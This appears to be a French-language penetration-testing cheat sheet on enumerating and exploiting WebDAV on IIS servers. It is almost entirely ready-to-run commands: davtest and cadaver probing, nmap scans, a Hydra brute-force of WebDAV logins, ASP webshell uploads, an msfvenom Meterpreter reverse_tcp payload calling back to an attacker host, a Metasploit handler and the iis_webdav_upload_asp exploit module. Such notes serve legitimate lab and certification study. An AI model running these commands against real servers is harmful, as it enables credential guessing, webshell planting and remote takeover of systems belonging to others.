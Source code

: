 # 📤 Énumération WebDAV

[← Retour à la table des matières](../README.md)

## Davtest
```bash
davtest -url targetIP/directorieSecret
davtest -url targetIP/directorieSecret -u user -p password
davtest -auth bob:password_123321 -url targetIP/directorieSecret
```

## Cadaver (avec authentification)
```bash
cadaver targetIP/directorieSecret
cadaver targetIP/directorieSecret -u user -p password
# Une fois connecté :
put /usr/share/webshells/asp/webshell.asp
```

## IIS WebDAV - Exploitation complète

### Reconnaissance initiale
```bash
# Scan initial pour identifier IIS
nmap -sV -sC targetIP
nmap -sV -p 80 --script=http-enum targetIP
```

### Bruteforce si authentification requise
```bash
# Hydra pour bruteforce WebDAV
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt targetIP http-get /webdav/
```

### Test des capacités WebDAV
```bash
# Test avec davtest
davtest -url http://targetIP/webdav
davtest -auth user:password -url http://targetIP/webdav
```

### Upload de webshells
```bash
# Connexion avec cadaver
cadaver http://targetIP/webdav
# Dans cadaver :
put /usr/share/webshells/asp/webshell.asp
```

### Localisation des webshells
```bash
# Répertoire des webshells
ls /usr/share/webshells/
# Contient : asp/, aspx/, cfm/, jsp/, perl/, php/
```

## Meterpreter via WebDAV

### Génération du payload
```bash
# Génération avec msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp
```

### Upload et handler
```bash
# Upload via cadaver
cadaver http://targetIP/webdav
put /path/to/shell.asp

# Handler Metasploit
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST KALI_IP
set LPORT 1234
run
```

### Module MSF automatique
```bash
# Module tout-en-un
use exploit/windows/iis/iis_webdav_upload_asp
set HTTPUSERNAME username
set HTTPPASSWORD password
set RHOSTS targetIP
set PATH webdav/metasploit.asp
run
```